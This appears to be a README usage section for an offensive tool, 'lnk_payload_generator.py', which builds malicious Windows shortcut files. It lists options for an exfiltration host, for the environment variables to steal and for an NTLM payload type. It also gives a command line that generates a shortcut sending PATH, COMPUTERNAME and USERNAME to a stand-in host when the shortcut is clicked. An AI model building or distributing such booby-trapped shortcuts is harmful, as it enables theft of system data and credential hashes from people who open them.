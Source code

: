 # Usage

## Command Line Options

- `--lang`: Choose language: en, ru, zh
- `--host`: Where should we send our data?
- `--output`: The name of the lnk file
- `--execute`: Command to execute when the shortcut is clicked (default: `C:\Windows\explorer.exe .`)
- `--vars`: Variables to exfiltrate, e.g., "PATH,COMPUTERNAME,USERNAME,NUMBER_OF_PROCESSORS"
- `--type`: Payload type to generate (choices: `environment`, `ntlm`, `all`)

## Examples

1. Generate a shortcut that opens Notepad:
    ```bash
    python lnk_payload_generator.py --lang en --host example.com --output notepad.lnk --execute "notepad.exe"
    ```

2. Generate a shortcut that exfiltrates environment variables:
    ```bash
    python lnk_payload_generator.py --lang en --host example.com --output payload.lnk --vars "PATH,COMPUTERNAME,USERNAME" --type environment
    ```

